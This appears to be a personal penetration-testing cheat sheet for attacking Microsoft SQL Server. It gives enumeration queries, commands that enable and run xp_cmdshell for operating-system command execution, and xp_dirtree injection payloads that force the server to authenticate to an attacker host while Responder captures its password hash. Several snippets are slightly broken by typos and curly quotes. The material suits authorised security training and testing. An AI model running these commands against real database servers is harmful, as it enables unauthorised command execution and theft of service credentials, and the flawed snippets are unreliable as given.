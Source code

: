 
## Good places
[hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server)
[pentestmonkey](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)

## Warning
Be careful, you can **block accounts** if you fail login several times using an existing username.

## Impacket smb related scripts
[[Impacket-Cheatsheet]]; if you have credentials:
```bash
# connect to a Microsoft SQL server
imapcket-mssqlclient -port $PORT $domain/$sql_svc 
```

```sql
SELECT @@version					 	-- version check
SELECT DB_NAME()						-- current database
SELECT name FROM master..sysdatabases;	-- list databases
-- Has two comment types
SELECT 1 — comment  
SELECT /*comment*/ 

SELECT is_srvrolemember('sysadmin'); 	-- role check

```

## Command Execution
Check if cmdshell is already active
```sql   
EXEC xp_cmdshell ‘net user’; -- privOn MSSQL 2005 you may need to reactivate xp_cmdshell first as it’s disabled by default:
EXEC sp_configure ‘show advanced options’, 1; -- priv  
RECONFIGURE; -- priv  
EXEC sp_configure ‘xp_cmdshell’, 1; -- priv  
RECONFIGURE; -- priv
-- OR
EXEC mast.dbo.xp_cmdshell 'cmd';
```

Arbituary File Reading with xp_dirtree
```sql
declare @q varchar(200); set @q ='\$ip\IppsecIsAwesome\test'; EXEC xp_dirtree @q;--+ 
```
Or
```sql
declare @q varchar(200); set @q ='\$ip\IppsecIsAwesome\test';exec master.dbo.xp_dirtree @q;--+
```

## Hash Passback
Use [[Responder-Cheatsheet]] to catch the service hash of user 
```bash
sudo responder -I $interface
xp_dirtree "\\attacker_ip\Share"
```

## References
[pentestmonkey](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)